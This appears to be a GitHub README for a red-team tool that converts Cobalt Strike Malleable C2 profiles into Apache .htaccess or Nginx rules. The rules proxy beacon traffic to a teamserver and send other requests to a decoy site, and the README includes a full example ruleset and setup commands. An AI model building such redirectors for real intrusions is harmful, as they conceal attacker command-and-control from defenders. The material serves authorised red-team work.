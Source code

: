 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection

This project converts a Cobalt Strike profile to a functional mod_rewrite .htaccess or Nginx config file to support HTTP proxy redirection to a CobaltStrike teamserver.

You should test and tune the output as needed before depolying, but these scripts should handle the heavy lifting.

## Updates and Features

 - Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. Result: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
 - Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
 - Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
 - Supports the Cobalt Strike custom URI features as of CS 3.10
 - HTTP or HTTPS proxying to the Cobalt Strike Team Server
 - HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to .htaccess
3) Modify as needed
4) Use the script with your redirector

## Apache mod_rewrite Example

    python cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE
    #### Save the following as .htaccess in the root web directory
    
    ########################################
    ## .htaccess START 
    RewriteEngine On

    ## (Optional)
    ## Scripted Web Delivery 
    ## Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/css/style1.css?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Default Beacon Staging Support (/1234)
    RewriteCond %{REQUEST_URI} ^/..../?$
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
    ## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
    ## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
    ## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
    ## Profile URIs
    RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
    ## Profile UserAgent
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Redirect all other traffic here (Optional)
    RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

    ## .htaccess END
    ########################################

## Nginx Example

    python ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local
    
    python ./cs2nginx.py -h
    usage: cs2nginx.py [-h] [-i INPUTFILE] [-c C2SERVER] [-r REDIRECT]
                    [-H HOSTNAME]

    Converts Cobalt Strike profiles to Nginx proxy_pass format by using URI
    endpoints to create regex matching rules. Make sure the profile passes a
    c2lint check before running this script.

    optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver_ip or
                    https://teamserver_domain)
    -r REDIRECT     Redirect bad requests to this URL (http://google.com)
    -H HOSTNAME     Hostname for Nginx redirector


----------------------------------------------
## Apache Rewrite Setup and Tips

### Enable Rewrite and Proxy

    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

Note: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### SL support requires the following in the site config

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generate by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

### HTACCESS
If you plan on using mod_rewrite in .htaccess files, you also need to enable the use of .htaccess files by changing `AllowOverride None` to `AllowOverride All`. For the default website, edit /etc/apache2/sites-available/default

    <Directory /var/www/>
            Options Indexes FollowSymLinks MultiViews
            AllowOverride All
            Order allow,deny
            allow from all
    </Directory>

## References

[cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)

[Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

[Resilient Red Team HTTPS Redirection Using Nginx - Adam Brown](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)